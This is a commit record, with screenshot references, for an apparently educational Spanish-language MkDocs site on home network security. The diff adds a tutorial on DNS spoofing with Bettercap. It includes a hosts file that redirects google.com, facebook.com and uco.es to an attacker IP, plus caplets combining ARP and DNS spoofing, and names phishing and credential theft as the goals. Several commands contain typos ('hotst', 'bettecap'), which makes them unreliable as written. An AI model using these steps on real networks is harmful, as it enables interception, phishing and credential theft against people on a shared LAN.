

Before and after one commit to hromero99/Seguridad-en-redes-dom-sticas, an MkDocs documentation site: the page built from Documentation/docs/networkAttack.md, in a window 1280 px wide and 1400 px high, scrolled down 4518 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 5123 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Agregado Dns Spoofing

````diff
--- a/Documentation/docs/networkAttack.md
+++ b/Documentation/docs/networkAttack.md
@@ -114,3 +114,51 @@
 Llegados a este punto abriendo un sniffer podemos observar el tráfico saliente de este dispositivo. Posteiormente podemos usar alguna herramienta como _Wireshark_ para analizar el tráfico.
 
 __Ejemplo de captura de tráfico hacia páginas con cifrado SSL [SSL Capture.pcapng]()__
+
+## Modificando paquetes de red
+
+Capturar tráfico saliente puede ser de gran ayuda para entender los protocolos que usa nuestro objetivo y en el caso de que se use un protocolo no seguro poder obtener credenciales que pueden ser reutilizadas, sin embargo, la mayoria de los protocolos que se utilizan suelen estar cifrados, es en este punto donde entra la modificación de paquetes.
+
+### Bettercap: The Swiss Army knife for 802.11
+
+Bettercap es una herramienta que nació como evolución de _ettercap_, de forma que nos permite implementar mayor número de ataques facilitando mucho determindas labores (como la creación de un proxy http manual). Podemos realizar múltiples acciones mediantes los denomidamos _caplets_.
+
+Los _caplets_ son fichers .cap que contienen instrucciones de bettercap, de forma que podemos realizar diferentes acciones almacenandolas todas ellas en un simple fichero (para su posterior reutilización)
+
+#### DNS Spoofing
+
+Uno de los ataques que podemos realizar dentro de una red local consiste en la modificación de las peticiones DNS para que apunten a diferentes sitios web. Este ataque nos permite realizar ataques de phishing y obtener credenciales o redirigir a la víctima hacia un sitio con malware.
+
+Para realizar un ataque de DNS spoofing con Bettercap, en primer lugar necesitamos crear un fichero con el formato _hosts_ para indicar las páginas que queremos redireccionar.
+
+```hostsSpoofing
+
+	10.0.2.15 google.com
+	10.0.2.15 facebook.com
+	10.0.2.15  uco.es
+```
+[hostsSpooging]()
+
+De esta forma cualquier petición hacia estas direcciones será automaticamente redirigida a nuestro servidor. Posteriormente tendremos que realizar el caplet para ejecutar con Bettercap.
+
+```dnsSpooging.cap
+
+	set dns.spoof.hotst ./hostsDns
+	dns.spoof on
+```
+[dnsSpoofing.cap]()
+
+Por último ejecutamos bettercap:
+
+	$ bettecap -caplet dns_spoofing.cap
+
+Previamente a relaizar este ataque tendremos que haber realizado un arp spoofing (para poder modificar los paquetes). Podemos incluir dicho ataque dentro del fichero dnsSpoofing.cap con las siguientes modificaciones
+
+```dnsSpooging.cap
+	arp.spoof.targets 10.0.2.15
+	arp.spoof on
+	set dns.spoof.hotst ./hostsDns¡
+	dns.spoof on
+
+```
+En el caso de que queramos realizar el ataque en todo el segmento en el que nos encotramo, podemos obviar el parámetro _arp.spoof.targets_
````
